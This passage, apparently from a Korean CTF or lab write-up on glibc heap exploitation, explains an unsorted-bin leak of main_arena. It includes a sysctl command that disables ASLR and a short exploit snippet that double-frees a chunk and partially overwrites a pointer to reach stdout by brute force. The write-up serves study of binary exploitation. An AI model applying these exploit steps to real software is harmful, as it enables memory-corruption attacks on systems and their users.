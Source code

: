 - `0x555555757260` Fake Chunk 부분을 8번 해제하여 마지막 한 부분이 unsortedbin 값에 대입된다.
- unsorted bin으로 넘어가는 부분에서 FD, BK 위치에 main_arena 주소가 담겨 있는 것을 확인할 수 있다.

## point to stdout

![./8.png](./8.png)

- stdout 주소와 main_arena 영역의 주소는 가까우며 1.5byte brute-force를 통해 main_arena의 주소를 stdout 주소로 조작해야 한다.
- ASLR을 끈 후에 익스프로잇을 작성하자

```cpp
sysctl -w kernel.randomize_va_space=0
```

- 미리 할당한 청크를 Double Free해 unsorted bin 청크 위에 새로 할당하고 하위 바이트를 덮어써 stdout 주소로 조작 한다.

```cpp
# double free
free(2)
free(2)

# point to main_arena address of unsorted bin
alloc(0x78, "\x70")
alloc(0x78, "A")
# stdout brute force
alloc(0x78, "\x60\x07\xdd")
pause()
```

![./9.png](./9.png)
